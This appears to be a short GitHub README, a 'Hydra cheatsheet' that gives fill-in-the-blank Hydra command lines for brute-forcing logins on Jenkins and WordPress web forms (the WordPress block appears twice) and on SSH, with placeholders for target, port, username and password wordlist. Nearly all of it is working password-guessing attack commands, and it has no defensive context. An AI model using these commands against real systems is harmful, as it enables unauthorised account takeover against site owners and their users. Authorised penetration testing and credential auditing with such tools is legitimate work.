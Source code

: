 # hydra-cheatsheet
Hydra cheatsheet for common CMS &amp; Services

## CMS

### Jenkins
```
sudo hydra -l [USERNAME] -P [PASSWORD_FILE] [TARGET] \
-s [PORT] http-post-form \
"/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" \
-V
```
### Wordpress
```
sudo hydra -l [USERNAME] -P [PASSWORD_FILE] [TARGET] \
http-form-post '/blog/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' \
-V
```
### Wordpress
```
sudo hydra -l [USERNAME] -P [PASSWORD_FILE] [TARGET] \
http-form-post '/blog/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' \
-V
```

## Services
### SSH
```
hydra -s [PORT] -l [USERNAME] -P [PASSWORD_FILE] [TARGET] -t 4 ssh
```
